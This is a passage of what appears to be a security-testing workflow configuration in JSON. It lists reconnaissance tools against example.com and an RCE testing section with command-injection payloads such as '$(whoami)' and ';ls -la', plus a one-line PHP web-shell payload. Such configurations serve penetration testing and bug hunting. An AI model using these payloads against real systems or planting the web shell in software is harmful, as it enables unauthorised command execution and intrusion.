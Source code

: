 ```json
                "tool": "nuclei",
                "params": {
                  "tags": "tech",
                  "severity": "info"
                }
              }
            ],
            "expected_outputs": ["live_hosts.txt", "technologies.json"],
            "estimated_time": 180
          },
          {
            "name": "content_discovery",
            "description": "Discover hidden content and endpoints",
            "tools": [
              {
                "tool": "katana",
                "params": {
                  "depth": 3,
                  "js_crawl": true
                }
              },
              {
                "tool": "gau",
                "params": {
                  "include_subs": true
                }
              },
              {
                "tool": "waybackurls",
                "params": {}
              },
              {
                "tool": "dirsearch",
                "params": {
                  "extensions": "php,html,js,txt,json,xml"
                }
              }
            ],
            "expected_outputs": ["endpoints.txt", "js_files.txt"],
            "estimated_time": 600
          }
        ],
        "estimated_time": 1080,
        "tools_count": 9
      },
      "vulnerability_hunting": {
        "target": "example.com",
        "vulnerability_tests": [
          {
            "vulnerability_type": "rce",
            "priority": 10,
            "tools": ["nuclei", "jaeles", "sqlmap"],
            "payload_type": "command_injection",
            "test_scenarios": [
              {
                "name": "Command Injection",
                "payloads": ["$(whoami)", "`id`", ";ls -la"]
              },
              {
                "name": "Code Injection",
                "payloads": ["<?php system($_GET['cmd']); ?>"]
              },
              {
```